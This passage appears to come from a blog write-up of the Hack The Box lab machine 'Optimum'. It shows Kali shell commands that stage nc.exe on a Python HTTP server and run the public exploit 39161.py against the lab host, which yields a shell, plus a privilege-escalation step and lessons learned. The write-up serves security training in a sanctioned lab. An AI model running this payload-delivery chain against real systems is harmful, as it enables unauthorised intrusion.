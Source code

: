 ```bash
┌──(mac㉿kali)-[~/Documents/HTB/optimum/www]
└─$ locate nc.exe
/usr/lib/mono/4.5/cert-sync.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe
┌──(mac㉿kali)-[~/Documents/HTB/optimum/www]
└─$ cp /usr/share/windows-resources/binaries/nc.exe .
┌──(mac㉿kali)-[~/Documents/HTB/optimum/www]
└─$ sudo python3 -m http.server 80
[sudo] password for mac: 
Sorry, try again.
[sudo] password for mac: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

I ran the exploit again:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/optimum]
└─$ python2 39161.py 10.10.10.8 80
```

And after 30 seconds or so I got a hit!

![](/assets/images/blogs/Pasted image 20210613135029.png)

## Final Exploit

Now I had to try and run my exploit again. Just `exp.exe` didn't work, but specifying the full path did:

![](/assets/images/blogs/Pasted image 20210613135104.png)

That's the box!

![](/assets/images/blogs/Pasted image 20210613134757.png)

# Key Lessons
Here are some of the key things I learned from this box:
- Try every tool! There may be multiple exploits available - go for the most recent one first, and don't give up if one doesn't work
- You can use `wget` as an alternative download method when powershell is being fiddly
- Bear in mind what *kind* of shell you're in - it may be powershell, not command prompt, which will change the syntax of the commands you're running